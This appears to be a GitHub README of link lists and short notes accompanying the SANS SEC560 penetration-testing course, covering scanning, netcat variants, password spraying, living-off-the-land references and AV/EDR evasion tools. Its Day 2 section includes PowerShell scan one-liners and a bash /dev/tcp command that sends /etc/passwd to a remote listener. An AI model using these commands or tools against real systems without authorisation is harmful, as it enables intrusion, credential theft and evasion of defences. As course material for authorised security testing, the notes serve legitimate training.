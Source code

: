 # 560-Extras
Notes and other extras related to SANS SEC560

## Day 1


## Day 2


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 
```
1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}
```

PowerShell port scan example: 
```
70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null
```

### Bash /dev/tcp fun

Connect to a port: 
```
echo "" > /dev/tcp/142.250.138.139/443
```

Send a file: 
```
cat /etc/passwd > /dev/tcp/10.10.10.10/4444
```

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

lolcat (lol): https://github.com/busyloop/lolcat

Awesome lolcat from Jeff McJunkin:
```
while true; do fortune | cowsay -f $(find /usr/share/cowsay/cows/ -type f | sort -R | head -n1) |
lolcat -a -s 40; sleep 2; done
```

Can use telnet, too (although it is not a cat): telnet ip port


### NSE script using the Vulners.com API: https://github.com/vulnersCom/nmap-vulners


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year:

http://weakpasswords.net/


### Skull Security for useful lists: https://wiki.skullsecurity.org/index.php/Passwords


### Password Spraying

DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/

SprayingToolkit: https://github.com/byt3bl33d3r/SprayingToolkit

TrevorSpray: https://github.com/blacklanternsecurity/TREVORspray


## Day 3

### Verizon Data Breach Investigation Report: https://www.verizon.com/business/resources/reports/dbir/


### Living off the land

Windows: https://lolbas-project.github.io/

Linux: https://gtfobins.github.io/


### PowerShell command history files: %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine


### Daily builds of various C# security tools: https://github.com/Flangvik/SharpCollection


### Custom Bloodhound queries: https://github.com/hausec/Bloodhound-Custom-Queries


## Day 4


### AV Bypass

DefenderCheck: https://github.com/matterpreter/DefenderCheck

AMSITrigger: https://github.com/RythmStick/AMSITrigger

https://vanmieghem.io/blueprint-for-evading-edr-in-2022/

https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html

https://github.com/TheWover/donut

Talk the Windows API directly with PowerShell: https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/

## Day5
